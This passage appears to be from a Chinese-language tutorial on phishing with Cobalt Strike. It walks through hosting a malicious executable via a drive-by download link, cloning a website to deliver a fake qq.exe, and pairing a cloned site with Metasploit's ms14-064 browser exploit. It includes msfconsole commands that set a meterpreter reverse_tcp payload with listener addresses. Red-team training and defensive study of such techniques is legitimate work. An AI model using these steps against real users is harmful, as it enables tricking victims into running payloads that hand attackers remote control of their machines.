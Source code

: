 ![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXM2ysdmqGEr9s4wFa7EnbcW9uNhpUvjdXTNqQds5iaLXBjSypPeklUgQ/640?wx_fmt=png)

#### **4、Host File**

点击 Attacks->Web Drive-by->Host File。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXUL6VLAVTtAJ1zU7Nv1TutEr3QvPVeRibfzN4Z3ltmpmk38sTia8QwazQ/640?wx_fmt=png)

上传文件 artifact.exe，填入本地的 URL、Host 及端口即可。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXwPzcBRCX7sJROD3VAxGVTqtXkdD8MwaYVfHx8eCwMdHdHQcicCaiaRMA/640?wx_fmt=png)

点击 launch 生成下载链接。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXy89z2rD93eDmXPCkFbJWVCiaHzgoZrdPx5MMO7cp2Blfpmibu3LF9iayw/640?wx_fmt=png)

将生成的下载链接发送给目标用户，若目标用户访问链接并运行了下载文件。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXrAlDZetvumficBFuXibVk3zh1oS4JcibmOBfbK2eRicic5UJjiakWmPUbytg/640?wx_fmt=png)

目标主机就会成功上线。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXbSSRbRiaeZgia75GDTGKkTrhXCeHyK1MLuOoLtdIoA0SCNmrW6ibwvicyA/640?wx_fmt=png)

网站下载模块也可以与网站克隆模块进行组合使用，具体如下。

首先克隆一个网站，然后填入需要克隆的 URL 地址，然后在 Attack 中添加刚刚生成的下载链接即可。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXuQwXcEZPRN1NCER8uxu3Jpr72nh2nJS1W7YvKxzh8ZYZmJcYxLZHqA/640?wx_fmt=png)

点击 Clone，会生成一个链接。将生成的链接发送给目标用户，在目标用户访问时会提示是否下载 qq.exe 文件，当客户端下载并点击运行时，Cobalt Strike 监听到有受害人来的信息就会产生通信进行会话。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXubuicC97VrS3fVxuiaZxxEsWOK8QhhDMcCPaicka76vFp5InnYb8Ho9Og/640?wx_fmt=png)

#### **5、Clone Site + msf**

这里我们使用 metasploit 中的 ms14-064 溢出漏洞与 Cobalt Strik 进行钓鱼攻击。具体步骤如下：

打开 metasploit，使用 ms14-064 模块，并如下配置参数。

```
use exploit/windows/browser/ms14_064_ole_code_executionset SRVHOST 192.168.0.7set SRVPORT 8888set payload windows/meterpreter/reverse_tcpset lhost 192.168.0.134set lport 6666exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXD71aXwyTBQTuh7zlv5iaIFc5gNrxia7SMfeZM60ibf2VicU9Nc5jpJabTQ/640?wx_fmt=png)

然后通过 exploit -j 生成利用代码。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXwA1Yf7V2WpBHWeMStrVpTIwH8W0ayqmZfiaKk6hSVXfsLVeQ8eEgeRw/640?wx_fmt=png)

打开 CS 中的 Clone Site 模块，输入需要克隆的网站地址及本地的 URL 等信息。然后在 Attack 中填入刚刚生成的溢出利用代码。

![](https://mmbiz.qpic.cn/mmbiz_png/oAglibP2OiaHiaOq0KEGIwnSwnrliboFXGjXd6HKQUfIXiaibWUgm2rYYrIeAQ3QLAibR8VUwsJOUYWaPFnupQKW2HSEw/640?wx_fmt=png)
